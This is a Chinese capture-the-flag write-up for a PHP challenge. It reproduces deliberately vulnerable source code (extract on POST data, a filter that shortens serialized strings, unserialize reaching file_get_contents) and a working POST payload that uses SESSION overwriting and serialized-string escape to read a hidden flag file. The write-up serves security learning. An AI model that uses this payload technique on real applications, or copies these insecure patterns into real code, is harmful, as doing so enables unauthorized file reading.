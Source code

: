 # [安洵杯 2019]easy_serialize_php

## 知识点

`php反序列化字符串逃逸(变短)`

`SESSION变量覆盖`

## 解题

在首页点击`show_source`即可获得`php`源码

```php
<?php

$function = @$_GET['f'];

function filter($img){
    $filter_arr = array('php','flag','php5','php4','fl1g');
    $filter = '/'.implode('|',$filter_arr).'/i';
    return preg_replace($filter,'',$img);
}


if($_SESSION){
    unset($_SESSION);
}

$_SESSION["user"] = 'guest';
$_SESSION['function'] = $function;

extract($_POST);

if(!$function){
    echo '<a href="index.php?f=highlight_file">source_code</a>';
}

if(!$_GET['img_path']){
    $_SESSION['img'] = base64_encode('guest_img.png');
}else{
    $_SESSION['img'] = sha1(base64_encode($_GET['img_path']));
}

$serialize_info = filter(serialize($_SESSION));

if($function == 'highlight_file'){
    highlight_file('index.php');
}else if($function == 'phpinfo'){
    eval('phpinfo();'); //maybe you can find something in here!
}else if($function == 'show_image'){
    $userinfo = unserialize($serialize_info);
    echo file_get_contents(base64_decode($userinfo['img']));
}
```

在`phpinfo`中找到了，`auto_append_file`说明自动在文件中执行该文件代码，说明要读取这个文件

![](./img/13-3.png)

 `extract($_POST)`就是将`post`的内容作为这个函数的参数。

然后就是变量覆盖。**如果`post`传参为`_SESSION[flag]=123`，那么`$_SESSION["user"]`和`$_SESSION["function"]`的值都会被覆盖**。

至于为什么`post`要传`_SESSION[flag]=123`而不是`$_SESSION[flag]=123`，是因为`_SESSION`是变量名，如果传`$_SESSION`，那么就会失效。

然后就是`反序列化字符串逃逸`，因为这里的`filter`函数是将匹配到的字符串清空，所以是反`序列化字符串逃逸(变短)`

首先按照`phpinfo.php`给的信息读取文件

```php
<?php
$_SESSION["user"] = 'guest';
$_SESSION['function'] = 'show_image';
$_SESSION['img'] = 'ZDBnM19mMWFnLnBocA==';      // d0g3_f1ag.php的base64编码

echo(serialize($_SESSION));
```

生成序列化后的字符串，取需要逃逸的部分，这里取的部分为红框里的部分

![](./img/[安洵杯2019]easy_serialize_php-1.png)

在红框部分前面`随意加一个字符`，我这里加了`C`

```php
$_SESSION["user"] = 'guest';
$_SESSION['function'] = 'C";s:8:"function";s:10:"show_image";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}';
$_SESSION['img'] = 'ZDBnM19mMWFnLnBocA==';      // d0g3_f1ag.php的base64编码

echo(serialize($_SESSION));
```

然后看之前红框部分前面这里到添加的`C`字符这部分的长度来决定填充字符

![](./img/[安洵杯2019]easy_serialize_php-2.png)

这里需要逃逸`24`个字符，一个`flag`能逃逸`4`个，所以需要`6`个`flag`

```json
_SESSION[user]=flagflagflagflagflagflag&_SESSION[function]=C";s:8:"function";s:10:"show_image";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}
```

![](./img/[安洵杯2019]easy_serialize_php-3.png)

因为`/d0g3_fllllllag`转为`base64`之后长度也是`20`，和`d0g3_f1ag.php`长度相同

所以直接改`img`部分反序列化的值即可，`L2QwZzNfZmxsbGxsbGFn`

![](./img/[安洵杯2019]easy_serialize_php-4.png)

[本人博客](https://cmacckk.github.io/2021/06/05/phpUnserialize/#php%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%AD%97%E7%AC%A6%E4%B8%B2%E9%80%83%E9%80%B8%E5%8F%98%E7%9F%AD)

[参考文章](